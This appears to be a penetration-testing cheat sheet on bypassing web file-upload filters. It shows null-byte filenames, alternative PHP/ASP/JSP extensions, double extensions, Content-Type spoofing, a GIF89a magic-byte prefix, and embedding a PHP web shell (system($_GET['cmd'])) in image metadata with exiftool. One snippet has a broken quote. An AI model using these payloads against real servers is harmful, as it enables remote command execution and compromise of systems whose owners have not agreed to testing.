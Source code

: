 # Arbitrary File Uploads
Some web application in our penetration testing will aloow us to upload certain, or any if we are lucky, files. Most of the time, we will come face-to-face with some kind of filter which only allows us to upload files of a specific category ot type. Below are some methods to attempt to bypass these filters.
## NULL Byte
Using the Burp Suite CE, we can capture the upload and chnage the "filename" attribute to contain a valid extension after a NULL, `%00` byte as shown below,
```
POST /somesite/upload.php HTTP/1.1
Host: (TARGET IP ADDRESS/HOSTNAME)
Content-Length: 12760
Cache-Control: max-age=0
Origin: (TARGET IP ADDRESS/HOSTNAME)
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi6iKb5xi5LuJJOJB
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Referer: (TARGET IP ADDRESS/HOSTNAME)
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryi6iKb5xi5LuJJOJB
Content-Disposition: form-data; name="file"; filename="wpes.php%00.png"
Content-Type: application/x-php
```
The `filename="wpes.php%00.png"` string shows that we tampered with the file name just before we pas the file along ot the web server. 
## Alternative Extensions
Sometimes, a filter will block extensions like `.php` but not `.php5` which means we can upload our WPES.PHP shell if we simply change the extension to `.php5`. This can be done for files by testying the following extensions,
#### PHP
* pht
* phpt
* phtml
* php3
* php4
* php5
* php6
* php7
#### CFM
* cfml
* cfc
* dbm
#### ASP
* aspx
#### Perl
* pl
* pm
* cgi
* lib
#### JSP
* jspx
* jsw
* jsv 
* jspf
## Whitelisting Bypass
We can also attempt to place an extension in the filename itself, like so,
```
wpes.png.php
```
This will bypass a filter such as the following pseudo-code,
```
if file contains ".png"
```
## Content-Type Bypass
some web application filters will check the HTTP request headers from the user which contains the "Content Type" value. This can alos be changed on the fly using the Burp Suite.
```
------WebKitFormBoundaryi6iKb5xi5LuJJOJB
Content-Disposition: form-data; name="file"; filename="wpes.php%00.png"
Content-Type: application/x-php
```
Should be chnaged to,
```
------WebKitFormBoundaryi6iKb5xi5LuJJOJB
Content-Disposition: form-data; name="file"; filename="wpes.php%00.png"
Content-Type: image/jpeg
```
## MIME Numbers Bypass
Some web application filters will actually check the frst few bytes, magic bytes, of a file. This means that we can upload a PHP file if we simply make the first few bytes match that of a PNG or image file.For instance, the list, https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/, states that a GIF file has the MIME/Magic bytes of "GIF89a". So, we simply place that on a line of it's own at the begining of the PHP file like so,
```
GIF89a;
<?php
 system($_GET[cmd']) ...
```
## Embed PHP Code in Image
PHP code can be embedded into an "image" file by making the image name `wpes.php.jpg` using a tool such as `exiftool` like so,
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```
